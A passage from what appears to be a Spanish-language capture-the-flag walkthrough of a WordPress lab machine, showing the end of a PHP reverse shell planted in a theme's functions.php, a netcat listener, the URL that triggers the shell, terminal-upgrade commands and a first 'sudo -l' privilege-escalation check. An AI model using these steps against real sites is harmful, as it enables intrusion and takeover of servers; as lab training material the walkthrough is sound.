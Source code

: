 ```
		print "$string\n";
	}
}

?> 
```

Una vez, lo hemos pusto, nos pondremos a la escucha.
```
nc -lnvp 6969
```
![alt text](image-9.png)

Una vez lo tenemos, vamos al archivo, y vamos a ejecutar el archivo simplemente colocando la ruta.
```
http://172.18.0.2/wp-content/themes/twentytwentyfour/functions.php
```
![alt text](image-11.png)

Vemos que en la terminal se nos ha abierto la consola.
![alt text](image-12.png)

Ahora realizaremos el tratamiento de la tty.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Vamos a intentar escalar privilegios.
```
sudo -l
```
